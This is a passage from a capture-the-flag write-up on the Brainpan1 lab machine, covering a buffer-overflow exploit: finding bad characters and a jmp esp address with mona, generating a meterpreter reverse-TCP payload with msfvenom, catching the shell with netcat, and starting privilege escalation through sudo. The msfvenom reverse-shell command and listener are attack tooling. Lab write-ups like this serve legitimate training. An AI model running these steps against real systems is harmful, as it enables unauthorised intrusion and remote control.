 Compare them with `!mona compare -f bytearray.bin -a <ESP Address>`

For this specific app we are told that "\x00\x01\x02\x03\x04" are bad characters.

# Jmp time

Now we need the jmp address, this makes sure that the app stays running when the exploit is sent.

To find this we can use `!mona jmp -r esp -b "\x00\x01\x02\x03\x04"`  

Now select any of the addresses in the log output and write it BACKWARDS like so:   
311712f3 = \xf3\x12\x17\x31

Setting the return value to the jmp address instead of BBBB


# Payload time

Due to this application being in windows we will have to create the payload 1st for windows, allowing us to test the application 1st and then be able to replicate it in a linux env.

You can find my description to this problem [here](#wine-trouble)

Now that we know this we can make a payload with msfvenom:  
`msfvenom -p linux/x86/meterpreter/reverse_tcp  LHOST=10.13.53.1 LPORT=4444 EXITFUNC=thread -b "\x00\x01\x02\x03\x04" -f py -v payload`

`-b` is the flag to black-list bytes  
`-f` allows us to specify the language
`-v` changes the var name

Remove the other payloads that exist and put this into the script. MAKE SURE TO REMOVE THE b in `"payload = b'data'"`, if following along

Spin up a `nc -lvnp 4444` and restart the app and run the exploit.

# First user
Now that we have a user we can run `whoami`, and get the user puck. Puck can't do much, however we do have the ablilty to run `anansi_util` from anansi's home directory. This is found by running `sudo -l` as seen below.

![sudo](/assets/images/brainpan1/sudo.png)

Now, finding this is no small feat. We can run passwordless a sudo command. Lets see what happens if we run it.

![help](/assets/images/brainpan1/help.png)
